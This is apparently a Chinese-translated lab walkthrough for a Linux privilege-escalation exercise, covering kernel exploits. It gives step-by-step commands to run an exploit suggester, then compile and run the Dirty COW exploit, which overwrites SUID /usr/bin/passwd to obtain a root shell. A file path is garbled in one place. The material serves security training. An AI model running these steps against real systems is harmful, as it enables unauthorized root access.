 > *****答案:no_root_squash*****

# **任务 20:内核漏洞**

**内核漏洞可能会使系统处于不稳定状态，这就是为什么您应该只在万不得已时才运行它们。**

**运行 **Linux 漏洞利用建议器 2** 工具来识别当前系统上潜在的内核漏洞利用:**

```
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
```

**应该列出流行的 Linux 内核漏洞“Dirty COW”。Dirty COW 的漏洞利用代码可以在**/home/user/tools/kernel-exploits/Dirty COW/c0w . c**找到。它将 SUID 文件/usr/bin/passwd 替换为一个生成 shell 的文件(在/tmp/bak 中创建了/usr/bin/passwd 的备份)。**

**编译并运行代码(注意，可能需要几分钟才能完成):**

```
gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
./c0w
```

**一旦攻击完成，运行/usr/bin/passwd 获得根外壳:**

```
/usr/bin/passwd
```

**记得在继续之前恢复原始的/usr/bin/passwd 文件并退出根 shell！**

```
mv /tmp/bak /usr/bin/passwd
exit
```
